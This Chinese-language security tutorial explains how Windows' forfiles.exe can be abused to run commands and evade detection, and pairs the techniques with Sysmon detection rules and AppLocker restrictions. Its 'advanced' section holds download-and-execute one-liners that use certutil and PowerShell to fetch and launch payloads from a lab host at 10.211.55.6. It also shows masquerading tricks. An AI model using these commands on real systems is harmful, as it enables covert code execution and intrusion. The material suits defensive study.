





Forfiles.exe 是 Windows 內建的批次檔案處理工具，原本用來根據檔案日期名稱等條件批次處理檔案  
但它有個強大的功能 - 可以對每個符合條件的檔案執行任意命令，  
這讓它成為攻擊者用來執行程式和繞過偵測的工具

## Forfiles 是什麼？

### 基本語法與功能

Forfiles 的設計目的是自動化檔案管理：

*   **選擇條件**：日期副檔名路徑
*   **執行命令**：對每個檔案執行指定命令
*   **變數替換**：@file@path@ext 等
*   **遞迴搜尋**：可搜尋子目錄

### 正常的 Forfiles 使用

```cmd
:: 刪除 30 天前的日誌檔
forfiles /p "C:\Logs" /s /m *.log /d -30 /c "cmd /c del @path"

:: 列出今天修改的檔案
forfiles /p "C:\Users" /d +0 /c "cmd /c echo @path @fdate"

:: 壓縮舊檔案
forfiles /p "C:\Backup" /m *.txt /d -7 /c "cmd /c 7z a @fname.zip @file"

```

重點是：`/c` 參數可以執行任意命令，這就是我們這次主要的攻擊點

## 攻擊流程

### Step 1: 基本命令執行

最簡單的執行方式：

```cmd
:: 直接執行程式
forfiles /c "calc.exe"

:: 透過 cmd 執行
forfiles /c "cmd /c calc.exe"

:: 執行 PowerShell
forfiles /c "powershell.exe -c Write-Host 'Forfiles Execution'"

```

  


### Step 2: 繞過偵測的技巧

```cmd
:: 使用搜尋條件隱藏意圖
forfiles /p "C:\Windows\System32" /m "svchost.exe" /c "cmd /c calc.exe"
:: 看起來在處理 svchost.exe，實際執行 calc.exe

```



### Step 3: 進階應用

#### 下載並執行

```cmd
:: 使用 certutil 下載
forfiles /c "cmd /c certutil -urlcache -f http://10.211.55.6:8080/payload.ps1 %temp%\p.ps1"
forfiles /c "powershell -ep bypass -f %temp%\p.ps1"

:: 使用 PowerShell 下載
forfiles /c "powershell -c (New-Object Net.WebClient).DownloadFile('http://10.211.55.6:8080/payload.exe','%temp%\update.exe')"
forfiles /c "%temp%\update.exe"

```

## 實際測試（Windows 11）

### 測試環境準備

```cmd
mkdir C:\TestLab
cd C:\TestLab
echo test > test.txt

```

### 基本功能測試

```cmd
:: 測試檔案列舉
forfiles /p "C:\TestLab" /c "cmd /c echo @file @fdate @ftime"

:: 測試命令執行
forfiles /p "C:\TestLab" /m "*.txt" /c "cmd /c echo Found: @path && calc.exe"

```



### 繞過技巧測試

```cmd
:: 隱藏在正常操作中
forfiles /p "C:\Windows\System32" /m "cmd.exe" /c "cmd /c echo Checking system files... && timeout 2 && calc.exe"

:: 多層巢狀
forfiles /c "cmd /c forfiles /c calc.exe"

```



## 偵測&防禦建議

### 關鍵偵測指標

*   `forfiles` + `/c` 執行非檔案管理命令
*   `forfiles` 執行 PowerShellcmdrundll32 等
*   `forfiles` 在 TempDownloads 等可疑位置執行
*   `forfiles` 產生網路連線活動

### Sysmon 設定

```xml
<RuleGroup name="Forfiles Detection">
  <ProcessCreate onmatch="include">
    <Image condition="end with">forfiles.exe</Image>
    <CommandLine condition="contains any">
      powershell;cmd /c;certutil;rundll32;regsvr32;mshta
    </CommandLine>
  </ProcessCreate>
  <ProcessCreate onmatch="include">
    <ParentImage condition="end with">forfiles.exe</ParentImage>
  </ProcessCreate>
</RuleGroup>

```

### 防禦策略

```powershell
# AppLocker 規則限制
$xml = @"
<AppLockerPolicy Version="1">
  <RuleCollection Type="Exe" EnforcementMode="Enabled">
    <FilePathRule Id="Block_Forfiles_Abuse" Name="Block Forfiles Command Execution" 
                  Description="Prevent forfiles from executing commands" 
                  UserOrGroupSid="S-1-1-0" Action="Deny">
      <Conditions>
        <FilePathCondition Path="%SYSTEM32%\forfiles.exe"/>
      </Conditions>
    </FilePathRule>
  </RuleCollection>
</AppLockerPolicy>
"@

# 限制一般使用者執行
icacls "C:\Windows\System32\forfiles.exe" /deny "Users:(RX)"

```

## 總結

Forfiles 的危險性：

*   **合法簽章** - Microsoft 內建工具
*   **命令執行** - /c 參數可執行任意命令
*   **低調** - 較少被監控
*   **偽裝容易** - 可混在正常維護腳本中

防禦重點：

1.  **監控 /c 參數** - 特別是執行非檔案管理命令
2.  **檢查子程序** - forfiles 產生的程序
3.  **限制使用** - 一般使用者不需要 forfiles